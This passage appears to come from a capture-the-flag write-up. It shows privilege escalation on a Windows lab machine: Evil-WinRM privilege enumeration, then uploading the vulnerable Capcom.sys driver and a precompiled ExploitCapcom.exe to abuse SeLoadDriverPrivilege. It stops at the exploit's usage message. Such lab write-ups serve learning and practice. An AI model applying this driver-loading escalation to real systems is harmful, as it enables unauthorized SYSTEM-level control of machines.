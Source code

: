 ### Enumeration as svc-print

Let us check out our privileges first.

```powershell
*Evil-WinRM* PS C:\Users\svc-print\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Googling for `SeLoadDriverPrivilege exploit`, we find [this article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/), which explains how we can exploit this privilege using the Capcom.sys driver. I am going to use [this exploit](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0), simply because it is already precompile so I do not have to compile it myself and [this Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) file.

### Exploiting SeLoadDriverPrivilege

In order to exploit this vulnerability, we first have to upload the Capcom.sys driver and the exploit. Luckily evil-winrm does all the heavy lifting for us.

```powershell
Evil-WinRM* PS C:\Users\svc-print\Documents> upload Capcom.sys
Info: Uploading Capcom.sys to C:\Users\svc-print\Documents\Capcom.sys

                                                              
Data: 14100 bytes of 14100 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload ExploitCapcom.exe
Info: Uploading ExploitCapcom.exe to C:\Users\svc-print\Documents\ExploitCapcom.exe

                                                              
Data: 387752 bytes of 387752 bytes copied

Info: Upload successful!
```

Now that the files are uploaded we can run the exploit to learn how to use it.

```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe
USAGE: 00000272A5966B70<LOAD/EXPLOIT> '<PATH/COMMAND>'
LOAD will load the vulnerable driver at PATH, EXPLOIT will run COMMAND
```
